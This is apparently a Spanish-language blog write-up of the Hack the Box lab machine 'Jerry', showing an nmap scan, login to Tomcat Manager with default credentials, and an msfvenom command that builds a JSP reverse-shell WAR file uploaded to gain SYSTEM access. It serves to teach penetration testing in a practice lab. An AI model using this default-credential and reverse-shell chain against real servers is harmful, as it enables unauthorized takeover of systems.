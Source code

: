 ```yaml
---
layout: post
title: Maquina Jerry
date: 2022-07-8 19:50:20 +0200
description: Máquina Jerry de Hack the Box # Add post description (optional)
img: jerry.png # Add image post (optional)
fig-caption: # Add figcaption (optional)
tags: [Jerry, java, windows, rce, reverse shell, war, msfvenom]
---
```


Hoy tocaremos una máquina muy fácil de iniciación, una máquina con la que vamos a practicar un rce a tomcat 

*********************************
# Enumeración

Como siempre lanzamos nmap y vemos que tiene solo un puerto abierto, el 8080. enmaramos el puerto y vemos un apache tomcat.

>Nmap 7.92 scan initiated Fri Jul  8 19:35:38 2022 as: nmap -sCV -p8080 -oN >versions 10.10.10.95
>Nmap scan report for 10.10.10.95
>Host is up (0.051s latency).

>PORT     STATE SERVICE VERSION
>8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
>|_http-favicon: Apache Tomcat
>|_http-title: Apache Tomcat/7.0.88
>|_http-open-proxy: Proxy might be redirecting requests
>|_http-server-header: Apache-Coyote/1.1





********************************
# Explotación Tomcat y Reverse shell

Abrimos el navegador y accedemos a la web por el puerto 8080, nos encontramos lo que parece un tomcat por defecto.

![inicial]({{site.baseurl}}/assets/img/Jerry/2022-07-08_193642.png)

Vamos a la opción Host manager y se nos abre una login de usuario, allí probamos el usuario admin y la contraseña admin pero nada, no nos da autorización.

Lo que si vemos es la pantalla de ejemplo de configuración de tomcat, donde nos da un ejemplo de usuario y contraseña. Usuario tomcat y contraseña s3cret. Probamos esas y bingo, el administrador no hizo bien su trabajo

![inicial]({{site.baseurl}}/assets/img/Jerry/2022-07-08_193753.png)

Vale, ya estamos como administrador, vemos que tenemos permisos para subir ficheros, en concreto unos [.war](https://www.arquitecturajava.com/modulos-de-java-ii-war/) de java.

Con msfvenom vamos a crear una reverse shell para poder subirla al tomcat y lograr acceso a la máquina.

>msfvenom -p java/jsp_shell_reverse_tcp LHOST= MI IP  LPORT= PUERTO  -f war > shell.war 

Esto nos creara un archivo war malicioso que cargaremos en el tomcat.

![inicial]({{site.baseurl}}/assets/img/Jerry/2022-07-08_195026.png)

Le damos a subir y nos aparecerá en el path de aplicaciones con el nombre que le hayamos puesto, solo nos queda ponernos en escucha con netcat y ejecutar el archivo .war.

![inicial]({{site.baseurl}}/assets/img/Jerry/2022-07-08_194915.png)

Pulsamos sobre el shell.war y listo ya estamos dentro.

![inicial]({{site.baseurl}}/assets/img/Jerry/2022-07-08_195109.png)

Hacemos un Whoami y vemos que somos ¡NT-Authority system! solo nos queda ir a por las flags ya que tenemos acceso pleno.

![inicial]({{site.baseurl}}/assets/img/Jerry/2022-07-08_195224.png)

Una máquina muy, muy sencilla de iniciación que está muy bien para conocer las reverse shell, nos vemos en otra máquina.
